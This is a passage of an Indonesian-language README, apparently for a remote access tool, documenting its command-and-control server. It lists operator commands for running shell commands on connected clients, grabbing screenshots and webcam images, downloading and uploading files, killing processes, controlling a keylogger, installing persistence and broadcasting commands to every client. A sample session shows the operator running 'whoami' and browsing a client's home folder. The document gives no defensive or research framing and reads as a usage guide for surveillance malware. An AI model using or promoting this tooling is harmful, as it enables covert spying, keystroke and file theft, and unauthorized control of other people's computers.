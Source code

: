 #### 4. Mengkonfirmasi Koneksi:

- Di terminal server, Anda akan melihat pesan "New client connected: [CLIENT_ID]"
- Gunakan perintah `list` untuk melihat semua client yang terhubung

### Perintah Server

Setelah server berjalan dan client terhubung, Anda dapat menggunakan perintah-perintah berikut:

| Perintah     | Format                                            | Deskripsi                                        |
| ------------ | ------------------------------------------------- | ------------------------------------------------ |
| `help`       | `help`                                            | Menampilkan daftar perintah yang tersedia        |
| `list`       | `list`                                            | Menampilkan daftar client yang terhubung         |
| `select`     | `select <client_id>`                              | Memilih client untuk berinteraksi                |
| `ping`       | `ping <client_id>`                                | Mengirim ping ke client                          |
| `shell`      | `shell <client_id> <command>`                     | Menjalankan perintah shell di client             |
| `screenshot` | `screenshot <client_id>`                          | Mengambil screenshot dari client                 |
| `webcam`     | `webcam <client_id>`                              | Mengambil gambar dari webcam client              |
| `files`      | `files <client_id> <path>`                        | Menampilkan daftar file di direktori pada client |
| `download`   | `download <client_id> <remote_path> <local_path>` | Mengunduh file dari client                       |
| `upload`     | `upload <client_id> <local_path> <remote_path>`   | Mengunggah file ke client                        |
| `ps`         | `ps <client_id>`                                  | Menampilkan daftar proses pada client            |
| `kill`       | `kill <client_id> <pid>`                          | Menghentikan proses pada client                  |
| `keylogger`  | `keylogger <client_id> <start\|stop\|dump>`       | Mengontrol keylogger                             |
| `persist`    | `persist <client_id>`                             | Memasang persistence pada client                 |
| `unpersist`  | `unpersist <client_id>`                           | Menghapus persistence dari client                |
| `broadcast`  | `broadcast <command>`                             | Menjalankan perintah pada semua client           |
| `exit`       | `exit`                                            | Keluar dari program server                       |

### Contoh Penggunaan

Berikut adalah contoh sesi penggunaan server:

```
$ ./bin/server
Server started on port 8080
Waiting for connections...

[+] New client connected: c1e4a8f2 (192.168.1.105)

> list
Connected clients:
ID: c1e4a8f2 | IP: 192.168.1.105 | Hostname: desktop-user | OS: Linux 5.4.0-42-generic

> select c1e4a8f2
Selected client: c1e4a8f2

> shell c1e4a8f2 whoami
user1

> files c1e4a8f2 /home/user1
drwxr-xr-x Documents
drwxr-xr-x Downloads
```